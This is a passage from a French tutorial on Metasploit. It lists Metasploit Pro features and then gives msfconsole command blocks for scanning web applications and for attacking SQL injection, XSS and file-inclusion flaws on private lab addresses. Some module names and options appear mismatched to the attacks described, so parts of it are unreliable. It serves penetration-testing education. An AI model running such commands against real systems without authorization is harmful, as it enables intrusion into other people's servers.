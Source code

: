 ### 1.2. Metasploit Pro (version commerciale)

Fonctionnalités avancées :

* Dashboard de campagne
* Rapports professionnels (PDF, HTML)
* Tests en un clic
* Collaboration équipe

Licences d'essai disponibles sur : [https://www.rapid7.com/products/metasploit/download/](https://www.rapid7.com/products/metasploit/download/)

---

## 2. Vulnérabilités Web avec Metasploit

### 2.1. Modules `auxiliary` spécifiques

Lister les modules Web :

```bash
search type:auxiliary name:web
```

Exemples utiles :

* `auxiliary/scanner/http/dir_scanner`
* `auxiliary/scanner/http/http_version`
* `auxiliary/scanner/http/wordpress_login_enum`

### 2.2. Exploiter une faille SQLi (injection SQL)

```bash
use auxiliary/sqli/oracle/dbms_cdc_publish
set RHOSTS 192.168.56.110
set RPORT 80
set URI /vuln.php?id=
run
```

### 2.3. Exploiter une faille XSS

Exemple : `auxiliary/gather/xssed_search`

```bash
use auxiliary/gather/xssed_search
set SEARCH_STRING login
run
```

### 2.4. LFI/RFI avec `auxiliary/scanner/http/lfi`

```bash
use auxiliary/scanner/http/lfi
set RHOSTS 192.168.56.120
set RPORT 80
set PATH /vulnerable.php?file=
run
```

---